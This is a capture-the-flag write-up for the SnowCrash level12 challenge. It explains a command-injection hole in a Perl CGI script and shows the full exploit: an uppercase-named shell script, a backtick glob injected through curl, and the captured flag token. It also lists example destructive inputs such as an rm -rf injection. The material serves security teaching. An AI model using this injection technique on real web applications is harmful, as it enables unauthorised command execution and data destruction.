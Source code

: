 # Exploit a substitution command in Perl

```
#!/usr/bin/env perl
# This script starts a CGI (Common Gateway Interface) program to handle web requests on localhost:4646

use CGI qw{param}; # Import the 'param' function from the CGI module to handle query parameters
print "Content-type: text/html\n\n"; # Send the HTTP header to indicate the content type of the response

# Define a subroutine 't' that checks if a specific pattern exists in a file
sub t {
  # $_[0] and $_[1] are the first and second arguments passed to the subroutine
  $nn = $_[1]; # The second argument, expected to be a string pattern to search for
  $xx = $_[0]; # The first argument, expected to be a string to transform and use in the search
  
  # Transform all lowercase letters in $xx to uppercase
  $xx =~ tr/a-z/A-Z/;
  
  # Remove all characters starting from the first whitespace character in $xx
  $xx =~ s/\s.*//;
  
  # Execute the egrep command to search for lines in /tmp/xd that start with $xx, capturing stderr
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  
  # Iterate through each line of the output
  foreach $line (@output) {
      # Split the line by the first colon ':' into $f and $s variables
      ($f, $s) = split(/:/, $line);
      
      # Check if $s (the part after the first colon) contains the pattern $nn
      if($s =~ $nn) {
          # If the pattern is found, return 1 (true)
          return 1;
      }
  }
  
  # If the pattern wasn't found in any line, return 0 (false)
  return 0;
}

# Define a subroutine 'n' that prints a response based on the argument
sub n {
  # Check if the argument passed to 'n' is 1 (true)
  if($_[0] == 1) {
      # If true, print two dots
      print("..");
  } else {
      # Otherwise, print one dot
      print(".");
  }    
}

# Execute the 'n' subroutine with the result of the 't' subroutine, which is called with 'x' and 'y' query parameters
n(t(param("x"), param("y")));


```

The security vulnerability in this Perl script lies in its use of unvalidated user input within a system command, specifically within the egrep command execution. This vulnerability is a classic example of command injection.


This line
```@output = `egrep "^$xx" /tmp/xd 2>&1`;```

User Input Not Sanitized: The variable $xx is modified to uppercase and truncated at the first space, but these transformations do not sanitize it against malicious payloads that include shell metacharacters. An attacker could craft input that closes the egrep command and starts a new command, which the server would then execute.

Exploitation Example: If an attacker submits the parameter x with a value like ; ls #, even after uppercase conversion and removing everything after the space, it would result in executing egrep "; LS #" /tmp/xd, which can be manipulated further to execute unintended commands. For example, an attacker could craft input like ; rm -rf /important_directory # to attempt destructive actions.

Lets exploit this

we can't exploit by simply call `getflag > /tmp/hack`,

because we have
```

 # Transform all lowercase letters in $xx to uppercase
  $xx =~ tr/a-z/A-Z/;
  
  # Remove all characters starting from the first whitespace character in $xx
  $xx =~ s/\s.*//;
```

so we create an UPPER CASE file to use shell substitution*

```
touch /tmp/HACK

chmod +x /tmp/HACK

level12@SnowCrash:~$ cat /tmp/HACK
#!/bin/sh
getflag | wall
```

```
..level12@SnowCrash:~$ curl localhost:4646?x='`/*/HACK`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 23:56 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr                      
```
